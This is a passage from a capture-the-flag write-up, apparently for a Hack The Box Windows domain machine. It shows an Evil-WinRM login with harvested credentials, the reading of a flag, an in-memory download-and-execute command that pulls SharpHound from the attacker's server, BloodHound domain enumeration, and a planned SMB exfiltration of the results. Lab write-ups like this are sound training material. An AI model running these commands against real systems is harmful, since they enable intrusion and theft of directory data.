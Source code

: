     
    
    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                             
    Info: Starting Evil-WinRM shell v1.7
    
    Info: Establishing connection to remote endpoint
                                                             
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
    

From here I can grab `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
    e5e4e47a************************     
    

## Privesc to Administrator

### Enumeration

#### SharpHound

With my shell, I’ll run
[SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors)
to collect data for [BloodHound](https://github.com/BloodHoundAD/BloodHound).
I’ve got a copy of Bloodhound on my machine (you can use `git clone
https://github.com/BloodHoundAD/BloodHound.git` if you don’t). I’ll start a
Python webserver in the `Ingestors` directory, and then load it in to my
current session:

    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")
    

Now I’ll invoke it:

    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
    

The result is a zip file:

    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir
    
        Directory: C:\Users\svc-alfresco\appdata\local\temp
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/18/2019   3:56 AM          12740 20191018035650_BloodHound.zip
    -a----       10/18/2019   3:56 AM           8978 Rk9SRVNU.bin   
    

I’ll use `smbserver.py` to exfil the results. On my box:

    